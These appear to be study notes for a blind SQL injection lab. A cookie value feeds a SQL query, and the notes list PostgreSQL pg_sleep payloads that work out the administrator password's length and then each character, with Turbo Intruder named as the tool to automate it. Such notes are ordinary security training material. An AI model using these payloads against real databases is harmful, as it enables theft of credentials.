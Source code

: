 # Scenario

1. Application uses a tracking cookie and performs a SQL query containing the value of the submitted cookie.
2. Results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows or causes an error.

# Payload

`id=''||(case when('b'='a')then pg_sleep(5)else null end)--`
1. Find way to bruteforce every single character of password of administrator
2. Or there are other way?
3. Available tool to use is turbo_intruder extension in burpsuite

`'||(case when(length((select password from users where username='administrator'))=20) then pg_sleep(5)else null end)--`
1. use AI to simulate the database, try to interact with it by payload to test if it working correctly

`'||(case when(substring((select password from users where username='administrator') ,3,1)='l') then pg_sleep(20)else null end)--`

# turbo_intruder

1. the payload is inserted in %s in the request

